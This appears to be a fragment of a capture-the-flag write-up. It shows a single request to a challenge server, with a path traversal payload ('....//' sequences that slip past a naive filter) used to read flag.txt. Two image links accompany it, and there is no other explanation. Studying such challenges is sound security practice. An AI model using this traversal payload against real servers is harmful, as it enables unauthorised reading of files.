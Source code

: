 ```
http://165.232.88.151:3333/page?path=....//....//....//....//flag.txt
```

[![image.png](https://i.postimg.cc/k5KtMF2Y/image.png)](https://postimg.cc/DWfzBGd1)
